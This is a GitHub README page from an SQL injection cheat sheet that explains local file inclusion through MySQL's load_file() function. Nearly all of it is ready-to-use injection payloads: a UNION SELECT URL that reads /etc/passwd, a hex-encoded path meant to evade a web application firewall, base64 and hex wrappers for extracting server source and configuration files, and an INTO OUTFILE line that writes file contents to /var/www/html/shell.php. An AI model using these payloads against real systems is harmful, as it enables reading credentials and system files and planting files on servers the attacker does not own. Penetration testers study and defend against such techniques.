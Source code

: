 # SQL Injection: LFI (Local File Inclusion) via load_file() function

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/LFI-via-load_file-function/README.md#sql-injection-lfi-local-file-inclusion-via-load_file-function)

If the database user has read permission (which most of the time it does), it is possible for an attacker to read the internal file of the server, with a small caviat that the absolute path must be known (just as a normal LFI). In order to perform this kind of attack, the following function must be used:

```sql
load_file(/path/to/file)
```

For example, the most basic approach is to read /etc/passwd:

```sql
load_file('../etc/passwd')
```

A simple usage of the query:

```
http://domain.com/index.php?id=1' Union Select 1,2,3,load_file('/etc/passwd'),5,6,7,8,9,10,11,12-- -
```

Alternatively you can convert **/etc/passwd** in 0xHex Format (in case WAF blocks it, or the backslashes might break up the syntax:

```sql
load_file(0x2e2e2f6574632f706173737764)
```

Just like normal LFI, it is possible to convert the content of the file in base64, thanks to **TO_base64()** function:

```sql
TO_base64(LOAD_FILE('/var/www/html/index.php'))  
```

You can also use **hex()** function in configuration files especially, when some characters are non-readable and might break the execution of the query:

```sql
hex(load_file('/etc/passwd'))
```

It is possible to read the content of the file and copy it somewhere else where it's accessible to read:

```
load_file('/etc/passwd') INTO OUTFILE '/var/www/html/shell.php'--
```